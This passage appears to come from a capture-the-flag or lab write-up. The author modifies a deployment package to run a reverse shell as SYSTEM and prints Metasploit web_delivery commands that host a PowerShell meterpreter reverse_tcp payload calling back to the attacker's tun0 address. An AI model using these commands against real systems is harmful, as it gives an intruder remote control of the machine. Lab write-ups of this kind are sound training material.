 I select one of the package that will execute command upon deployment which I can edit this with my reverse shell command and get a shell as SYSTEM.
![c39d5be177a39128c2fb1b3c86616c39.png](/resources/c39d5be177a39128c2fb1b3c86616c39.png)

First, I'll setup web delivery module in metesploit framework to host powershell reverse shell payload.
```
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_tcp
set lhost tun0
set lport 443
run
```
![ba1a1cac7cbbab558aa5051c32bf94e9.png](/resources/ba1a1cac7cbbab558aa5051c32bf94e9.png)
